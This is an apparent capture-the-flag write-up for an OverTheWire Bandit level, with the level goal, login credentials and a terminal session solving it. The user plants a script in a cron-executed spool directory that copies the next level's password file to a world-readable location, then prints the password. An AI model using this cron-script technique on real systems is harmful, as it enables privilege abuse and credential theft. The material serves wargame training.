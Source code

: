 ## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
## Datos de acceso al nivel
bandit23
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
## Solución
```
bandit23@bandit:~$ mkdir /tmp/ikeg01
bandit23@bandit:~$ cd /tmp/ikeg01
bandit23@bandit:/tmp/ikeg01$ nano ikegscript.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/ikeg01$ cat ikegscript.sh
cat /etc/bandit_pass/bandit24 > /tmp/ikeg01/password
bandit23@bandit:/tmp/ikeg01$ chmod 777 ikegscript.sh
bandit23@bandit:/tmp/ikeg01$ touch password
bandit23@bandit:/tmp/ikeg01$ chmod 666 password
bandit23@bandit:/tmp/ikeg01$ ls -la
total 112
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 28 18:33 .
drwxrwx-wt 3010 root     root     106496 Feb 27 22:03 ..
-rwxrwxrwx    1 bandit23 bandit23     53 Feb 27 22:03 ikegscript.sh
-rw-rw-rw-    1 bandit23 bandit23      0 Feb 27 22:03 password
bandit23@bandit:/tmp/ikeg01$ cp ikegscript.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/ikeg01$ ls -la
total 116
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 27 22:30 .
drwxrwx-wt 3010 root     root     106496 Feb 27 22:30 ..
-rwxrwxrwx    1 bandit23 bandit23     53 Feb 27 22:30 ikegscript.sh
-rw-rw-rw-    1 bandit23 bandit23     33 Feb 27 22:30 password
bandit23@bandit:/tmp/ikeg01$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/ikeg01$
```
## Notas adicionales

## Referencias